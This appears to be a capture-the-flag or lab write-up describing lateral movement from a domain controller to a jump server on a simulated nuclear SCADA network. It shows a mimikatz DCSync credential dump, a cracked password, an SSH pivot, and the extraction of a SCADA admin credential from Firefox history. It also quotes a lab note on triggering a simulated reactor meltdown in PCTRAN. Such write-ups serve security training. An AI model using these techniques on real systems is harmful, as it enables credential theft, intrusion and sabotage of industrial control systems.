






# Lateral Movement 2 - DC to Jump-Server

- [Lateral Movement 2 - DC to Jump-Server](#lateral-movement-2---dc-to-jump-server)
  - [Recap](#recap)
  - [Local Enumeration](#local-enumeration)

----

## Recap

From user enumeration, we know there is a user called `jump-admin`.

<br/>

From computer enumeration, we know there is a computer called `jump-server`, which is listening on tcp/22 - likely a linux machine.

<br/>

Dump the credential of the user `jump-admin` using DCSync using mimikatz:

```
lsapdump::dcsync /user:nuclear\jump-admin
```

  

NTLM:  `2dc9bff397f9e6c9f08a05b18145a7b6`

<br/>

Checking the NTLM on crackstation:

  

- The cleartext password of `jump-admin` is `B@DB!tch`.

<br/>

Then try to use this credential to SSH to Jump-Server:

```
proxychains ssh jump-admin@10.1.1.4
```

  

- Login successfully but the user has no sudo privilege.

<br/>

## Local Enumeration

Checking the user's home, there is a file called `Core_Reactor_notes`, which contains some instructions:

  


```
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@


        !!This file contains important information for
        proper operation of Nuclear Core Reactor!!


Extreme focus is on the heat generated by the Nuclear Reactor &
the cooling systems used to depress the amount of heat.


Scientist must be extreme cautious when dealing with the following cases:

- Loss or inadvertant withdrawl of coolant rods.

- Loss of Electric Power (Station Blackout)

- Failure of reactor protection systems.

- Natural Calamity (Earthquakes and fire)

The most probable case would be of inadvertant withdrawl of rods. 
On the SCADA-HOST, the PCTRAN application is the control panel for monitoring
and operating Nuclear Core Reactor. 

With access to PCTRAN control panel, the following procedure can replicate 
NUCLEAR MELTDOWN in core's reactor.

Code Control > Malfunctions > set option 12 (Inadvertent Rod Withdrawl)


Modify Delay Time (5)
Failure Fraction (100)
Check the active box 


Then, RUN the application, in 5 seconds, a message "OVERFlow" appears.

CAUTION: Nuclear Meltdown could be achieved by following the above procedure. 

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

```

- This is in fact one of our objective.

<br/>

Checking the firefox browsing history, there is a cleartext credential:

```
cd ~/.mozilla/firefox/4pzgqgj4.default-release
```

```
sqlite3 places.sqlite
```

```
.tables
```

```
select * from moz_places;
```

  

- scada-host.scada.local
  - `Administrator` / `SCADAAdmin!@#$%`


<br/>

Check the hosts file:

```
cat /etc/hosts
```

  

- IP address of `scada-host.scada.local` is `10.2.1.1`

<br/>

